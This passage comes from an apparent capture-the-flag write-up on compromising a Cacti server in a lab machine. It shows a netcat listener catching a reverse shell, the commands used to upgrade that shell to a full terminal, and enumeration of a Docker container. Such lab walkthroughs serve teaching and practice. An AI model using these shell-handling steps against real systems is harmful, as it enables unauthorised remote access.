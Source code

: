 At `nc`, I get a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.211 57164
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@50bca5e748b0:/var/www/html$ 
    

I’ll upgrade my shell using the [stty /
script](https://www.youtube.com/watch?v=DqE6DxqJg8Q) trick:

    
    
    www-data@50bca5e748b0:/var/www/html$ script /dev/null -c bash        
    Script started, output log file is '/dev/null'.                      
    www-data@50bca5e748b0:/var/www/html$ ^Z                              
    [1]+  Stopped                 nc -lnvp 443                           
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443                                                         
                reset                                                    
    reset: unknown terminal type unknown                                 
    Terminal type? screen                                                
    www-data@50bca5e748b0:/var/www/html$
    

## Shell as marcus

### Enumeration

#### Docker

This is a stripped down host, and not the one with the outward facing IP of
10.10.11.211. It seems like a Docker container:

  * The hostname is just random hex, `50bca5e748b0`.
  * Command s like `ip`, `ifconfig`, and `ping` are not installed.
  * The IP is 172.19.0.3 (as seen in `/proc/net/fib_trie`).
  * There’s a `.dockerenv` file in `/`.

#### Web

Cacti is homed in `/var/www/html`:

    
    
    www-data@50bca5e748b0:/var/www/html$ ls           
    CHANGELOG                   cli                        graph_templates.php         managers.php            rrdcleaner.php
    LICENSE                     clog.php                   graph_templates_inputs.php  mibs                    script_server.php
    README.md                   clog_user.php              graph_templates_items.php   permission_denied.php   scripts
    about.php                   cmd.php                    graph_view.php              plugins                 service
    aggregate_graphs.php        cmd_realtime.php           graph_xport.php             plugins.php             service_check.php
    aggregate_items.php         color.php                  graphs.php                  poller.php              settings.php
    aggregate_templates.php     color_templates.php        graphs_items.php            poller_automation.php   sites.php
    auth_changepassword.php     color_templates_items.php  graphs_new.php              poller_boost.php        snmpagent_mibcache.php
    auth_login.php              data_debug.php             help.php                    poller_commands.php     snmpagent_mibcachechild.php